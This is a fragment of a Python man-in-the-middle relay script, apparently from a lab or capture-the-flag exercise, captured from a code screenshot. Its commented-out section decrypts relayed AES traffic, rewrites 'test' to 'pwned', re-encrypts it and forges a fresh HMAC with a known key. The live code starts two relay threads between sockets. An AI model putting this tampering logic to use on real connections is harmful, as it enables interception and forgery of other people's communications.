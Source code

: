 ```python
    #         try:
    #             hmac_recv = src.recv(1024)
    #             data = src.recv(1024)
    #             if not data: break
                
    #             # Decrypt the data
    #             plain = unpad(cipher.decrypt(data), AES.block_size)
                
    #             # Modify if 'test' is found
    #             if b'test' in plain:
    #                 print(f"[!] Found 'test' - Modifying to 'pwned'")
    #                 modified = plain.replace(b'test', b'pwned')
                    
    #                 # Re-encrypt the modified data
    #                 modified_enc = cipher.encrypt(pad(modified, AES.block_size))
                    
    #                 # Generate new HMAC for modified data
    #                 new_hmac = hmac.new(VERIFY_KEY, modified_enc, hashlib.sha256).hexdigest().encode()
                    
    #                 # Send the modified packets
    #                 dst.send(new_hmac)
    #                 dst.send(modified_enc)
    #                 continue
                    
    #             print(f"[COMMUNICATION] DATA: {plain}")
    #             dst.send(hmac_recv)
    #             dst.send(data)
            
    #         except Exception as e:
    #             print(f"[ERROR] Relay failed: {e}")
    #             break

    IN_thread = Thread(target=relay, args=(sock, s,))
    IN_thread.start()

    OUT_thread = Thread(target=relay, args=(s, sock,))
    OUT_thread.start()

while True:
    start()
```
